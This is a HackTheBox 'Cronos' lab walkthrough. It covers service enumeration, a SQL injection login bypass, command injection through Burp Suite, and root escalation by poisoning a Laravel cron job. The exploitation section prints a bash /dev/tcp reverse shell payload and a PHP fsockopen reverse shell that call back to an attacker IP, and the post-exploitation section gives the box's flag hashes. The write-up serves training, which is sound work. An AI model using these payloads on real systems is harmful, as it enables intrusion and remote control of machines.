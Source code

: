 # HTB: Cronos

## Engagement Overview

**Target:** Cronos  
**Box IP:** 10.10.10.13   
**Local IP:** 10.10.14.10   
**Date:** 2025-07-12  

---

### Objectives

- Exploit SQL injection vulnerability
- Achieve shell access and escalate to root via cron job abuse

---

## Service Enumeration

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

- **Gobuster:** No useful results  
- **DNS Info (dig):**
  ```
  cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb.
  ```

---

## Exploitation

### Initial Access

**Vulnerability:**  
- SQL Injection on `admin.cronos.htb` login form  
- Payload: `' OR 1=1-- -`  

**Confirmation:**  
Ping test to attacker IP succeeded:
```
PING 10.10.14.10 (10.10.14.10): 64 bytes from 10.10.14.10: time=43.6 ms
```

**Command Injection:**  
Using Burp Suite Repeater:
```
command=ls+-l&host=/var/www
```
Response:
```
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 admin
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 html
drwxr-xr-x 13 www-data www-data 4096 May 10 2022 laravel
```

**Reverse Shell Payload:**  
```bash
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
```

Shell acquired as `www-data`.

---

## Privilege Escalation

### Enumeration
- Discovered cron job running Laravel scheduler:
  ```
  * * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```

### Exploitation
- Poisoned artisan job to execute PHP reverse shell:
```php
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

- Shell established as `root`.

---

## House Cleaning
- Removed:
  - `linpeas.sh`
  - Malicious code from Laravel artisan
- No additional uploads or tools left behind

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized
- Burp Suite
- linPEAS
- netcat / listener

---

## Key Takeaways
- linPEAS highlighted numerous other potential vulnerabilities, but only the cron job was exploited
- This box served as good hands-on training for:
  - Manual SQL injection
  - Laravel-based cron job abuse
  - Gaining shell via Burp Suite command injection